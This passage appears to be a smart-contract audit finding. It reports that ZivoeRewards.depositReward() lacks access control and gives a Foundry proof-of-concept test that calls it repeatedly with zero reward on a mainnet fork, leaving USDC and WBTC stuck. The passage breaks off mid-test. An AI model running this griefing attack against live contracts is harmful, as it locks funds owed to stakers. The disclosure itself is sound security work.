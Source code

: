 ````ZivoeRewards.depositReward()```` has no access control, attackers can call it with zero amount of ````reward```` to get some reward tokens stuck in contract. The locked amount could be significant especially when reward tokens have small decimals such as ````USDT/USDC/WBTC````.
...
232:         if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
233:             rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
234:         } else {
...
237:             rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
238:         }
...
243:     }

```

The following PoC shows two cases that ````654 USDC```` and ````6.6 WBTC```` get stuck in ````ZivoeRewards(stZVE)```` contract after ````20```` calls on ````depositReward()```` with zero amount of ````reward````.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "../Utility/Utility.sol";
import "forge-std/console2.sol";

contract TestDepositRewardBug is Utility {
    address alice;
    function setUp() public {
        vm.createSelectFork("https://mainnet.gateway.tenderly.co");
        deployCore(false);

        deal(USDC, address(zvl), 1_000e6); // 1,000 USDC
        deal(WBTC, address(zvl), 10e8); // 10 wBTC
        vm.startPrank(address(zvl));
        stZVE.addReward(USDC, 365 days);
        stZVE.addReward(WBTC, 365 days);
        IERC20(USDC).approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(USDC, 1_000e6);
        IERC20(WBTC).approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(WBTC, 10e8);
        vm.stopPrank();


        alice = makeAddr("alice");
        deal(address(ZVE), alice, 1_000e18);
        assertEq(ZVE.balanceOf(alice), 1_000e18);

        vm.startPrank(alice);
        ZVE.approve(address(stZVE), type(uint256).max);
        stZVE.stake(1_000e18);
        vm.stopPrank();

        // alice is the only staker, and is expected to get all rewards
        assertEq(1_000e18, stZVE.totalSupply());
    }

    function testAttackOnUSDCReward() public {
        uint256 timestamp = block.timestamp;
        for (uint256 i; i < 20; ++i) {   
            vm.warp(timestamp += 12);
            // deposit nothing
            stZVE.depositReward(USDC, 0);
        }

````